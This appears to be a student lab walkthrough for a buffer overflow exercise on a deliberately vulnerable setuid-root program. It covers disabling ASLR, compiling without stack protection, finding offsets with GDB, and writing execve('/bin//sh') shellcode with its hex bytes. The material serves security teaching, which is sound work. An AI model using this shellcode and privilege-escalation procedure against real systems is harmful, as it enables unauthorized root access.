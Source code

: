 # Buffer Overflow

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/287382801_1012708796106310_3393263325642954415_n.png?stp=dst-png_s480x480&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OEfE7TGvRbcAX9Lwnqo&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVJaBQXkeTQc3PbfYqHvYtXJEhUZnHG_3LUF_EvomUPjPQ&oe=62D10C9F)


![](https://scontent.xx.fbcdn.net/v/t1.15752-9/284937695_8397444896947802_7098575315767581280_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=h_6gXJaQYfsAX87Bvx-&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKzKVJLo4b6r2DPyj6_3K_JmVtxA9HT29wY-DC3cdIulw&oe=62D35345)

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/285364149_1209590779795497_2438689606973803339_n.png?stp=dst-png_p206x206&_nc_cat=105&ccb=1-7&_nc_sid=aee45a&_nc_ohc=FEFsuA50wucAX_aWkCe&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKyLOeKgkxINCyuvAc6lFEvPwXVLGFWX6CUa5Cp0N2uNA&oe=62D361AE)


# GDB: Important Points
- ```next``` move to the next instruction
- ```stepi``` move to the next assembly instruction
- ```disas [Function]``` disassebles a specific function
- ```break [Function] ``` or ```break *address``` set a breakpoint
- Regarding setting breakpoints and getting the correct value of ```ebp``` see lecture **buffer_overflow_demo.mp4** (from 11:50)
    - Set breakpoints appropriately for getting the correct value of stack pointer ```ebp```
    - After getting to that breakpoint, it is better to use a ```next``` command to make sure that the value of ```ebp``` is updated properly

# Assembly: Important Points
- The return value of a function is stored in ```eax```


# Task
Prepare a payload (e.g badfile) which will cause the program to call the the *secret* function and then open a shell with root's privilege when executed by other users



# Step by Step Procedure

## Step 1: Setting up the environment and compiling target C file  
```bash
# setting up environments and permissions
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
# set user as root
sudo su
# compiling the target file as root
gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
# set user as a normal user (not root)
su seed
# compiling the target file with "-g" for gdb
gcc -m32 -o stack_dbg -g -z execstack -fno-stack-protector stack.c
```

## Step 2: Getting the return address and buffer address using gdb

```bash
# run gdb
$ gdb stack_dbg
# set a breakpoint at foo
gdb-peda$ b foo
gdb-peda$ run
# set a breakpoint ar bof
gdb-peda$ b bof
gdb-peda$ continue
gdb-peda$ next
# print the value of ebp register (stack fram pointer)
# i.e. top of the current stack frame I guess
gdb-peda$ p $ebp
$1 = (void*) 0xffffb828

# print the address of buffer
gdb-peda$ p &buffer     
$2 = (char(*)[614])0xffffb592

# print in decimal (/d) the address difference
gdb-peda$ p /d 0xb828 - 0xb592
$3 = 662

# get the starting address of the function secret
gdb-peda$ disas secret
Dump of assembler code for function secret:
   0x565562e5 <+0>:     endbr32
   0x565562e9 <+4>:     push ebp
   ...
End of assembler dump.
```


## Step 1: Creating *payload*/*badfile*
- The payload or the badfile is usually written in assembly 
- The corresponding assembly code is translated to machine code
- The machine code is used to create a *badfile*
- Our intention is to **make a call to the function *secret*** and **open a shell with root privilege**


### Step 1.1: Make a call to the function *secret*
```x86asm
mov ebx, 0x565562e5
call ebx
```
- ```0x565562e5``` is the address of the function ```secret``` which we figured out using GDB


### Step 1.2: Open a shell with root privilege
```x86asm
xor  eax, eax 
push eax          ; Use 0 to terminate the string
push "//sh"
push "/bin"
mov  ebx, esp     ; Get the string address

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] points "/bin//sh"
mov  ecx, esp     ; Get the address of argv[]

; For environment variable 
xor  edx, edx     ; No env variables 

; Invoke execve()
xor  eax, eax     ; eax = 0x00000000
mov   al, 0x0b    ; eax = 0x0000000b
int 0x80
```

The final output should look something like this
```x86asm
section .text
  global _start
    _start:
      mov ebx, 0x565562e5
      call ebx

      ; code to open a shell
      xor  eax, eax 
      push eax          
      push "//sh"
      push "/bin"
      mov  ebx, esp     
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
      ; For environment variable 
      xor  edx, edx     ; No env variables 
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

## Step 2: Generating Machine Code for payload

### Method 1: 

- Use the following two commands to generate the machine code

```properties
nasm -f elf32 <asm_filename>.s -o <asm_filename>.o
xxd -p -c 20 <asm_filename>.o
```

- Copy the machine code and format it using **convert.py**. Paste the copied machine code into the variable ```ori_sh``` on line no 5

```python
ori_sh ="""
bbe5625556ffd331
c050682f2f7368682f62696e89e3505389e131d2
31c0b00bcd80
"""
```

- Run **convert.py** to get the formattd machine code


### Method 2: 
- Use [this link](https://defuse.ca/online-x86-assembler.htm) to directly generate formatted machine code. Only use ```mov```, ```push```, ```xor``` etc. commands
